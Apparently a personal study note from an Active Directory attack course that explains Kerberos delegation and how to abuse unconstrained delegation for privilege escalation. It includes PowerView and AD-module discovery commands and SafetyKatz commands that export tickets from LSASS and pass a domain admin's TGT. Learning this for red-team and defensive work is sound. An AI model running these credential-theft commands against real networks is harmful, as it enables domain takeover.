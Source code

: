 - Kerberos Delegation allows to "reuse the end-user credentials to access resources hosted on a different server".
- This is typically useful in multi-tier service or applications where Kerberos Double Hop is required. For example, users authenticates to a web server (first hop) and web server makes requests to a database server (second hop).
- User impersonation is the goal of delegation 
![[Kerberos Delegation.png]]
- There are two types of Kerberos Delegation:
	- **General/Basic or Unconstrained Delegation** - Allows the first hop (web server in our example) to request access to any service on any computer in the domain.
	- **Constrained Delegation** - Allows the first hop to request access only to specified services on specified computers. If Kerberos authentication is not used to authenticate to the first hop, Protocol Transition is used to transition the request to Kerberos.


## Priv Esc - Unconstrained Delegation
- It allows delegation to any service to any resource on the domain as a user.
- When unconstrained delegation is enabled, the DC places user's TGT inside TGS. On the first hop, the TGT is extracted from TGS and stored in LSASS. This way the server can reuse the user's TGT to access any other resource as the user.
- This is ripe for abuse!

![[Unconstrained Delegation.png]]

1. A user provides credentials to the Domain Controller.
2. The DC returns a TGT.
3. The user requests a TGS for the web service on Web Server.
4. The DC provides a TGS.
5. The user sends the TGT and TGS to the web server.
6. The web server service account use the user's TGT to request a TGS for the database server from the DC.
7. The web server service account connects to the database server as the user.

- Discover domain computers which have unconstrained delegation enabled 
```
# using PowerView:
Get-DomainComputer -UnConstrained

# Using ActiveDirectory module:
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

- Compromise the server(s) where Unconstrained delegation is enabled.
- We must trick or wait for a domain admin to connect a service on appsrv.
- Now, if the command is run again:
```
SafetyKatz.exe "sekurlsa::tickets /export"
```
- The DA token could be reused:
```
Safetykatz.exe "kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"
```
